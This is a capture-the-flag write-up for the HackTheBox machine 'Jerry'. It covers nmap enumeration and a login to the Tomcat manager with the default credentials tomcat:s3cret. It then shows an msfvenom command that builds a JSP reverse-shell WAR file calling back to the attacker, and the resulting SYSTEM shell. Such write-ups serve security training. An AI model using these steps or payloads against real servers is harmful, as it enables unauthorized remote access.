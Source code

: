 # HackTheBox
# Jerry - Writeup

---

## Initial Enumeration:
Running the first nmap scan on the first 1000 ports:
Since this is a Windows Box, we'll be running nmap with `-Pn` flag. 

```bash
nmap 10.10.10.95 -oN nmap/initial -Pn
```

```bash
# Nmap 7.80 scan initiated Fri Aug 27 05:35:49 2021 as: nmap -oN nmap/initial -Pn 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.100s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
```
Now, we can run 2 scans, one for the services enumeration and the other for all ports scan, since the all ports scan is going to take a long, i'm not going to run it on this box:
### Service enumeration:
```bash
nmap -sC -sV -p 8080 -oN nmap/port_8080_service 10.10.10.95 -Pn
```
```bash
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
```

Visiting the webserver, we can see that the server is running Apache Tomcat 7.0.88. Checking on searchsploit. We can see that we've got a rce upload bypass. I remember doing some boxes on [TryHackMe](https://tryhackme.com) that taught this kind of exploitation.
I ran a Nikto scan in the background and remembered that a `/manager` directory exists. So, I visited the directory and was greeted with a Popup for login. I made a list that contained default `username:passwords` for stuff that I had previously exploited. I saw that I had a few combos for the tomcat laying around, trying my luck and found a working set of credentials : `tomcat:s3cret`. So, I was able to log in. Now, since the upload bypass leading to RCE exists, I turned to msfvenom to generate a payload for me that would give me a reverse shell, checking my cheat sheet, I had the exact command lying around:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=443 -f war > shell.war
```
Since, we've generated a reverse shell, we need to start a listener, for that I'll be using `netcat`. Once the listener is started and the file uploaded, we can simply just click on the name of the file we see on the dashboard of the website, in our case `/shell` and we'll get a reverse shell back:
```bash
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

---
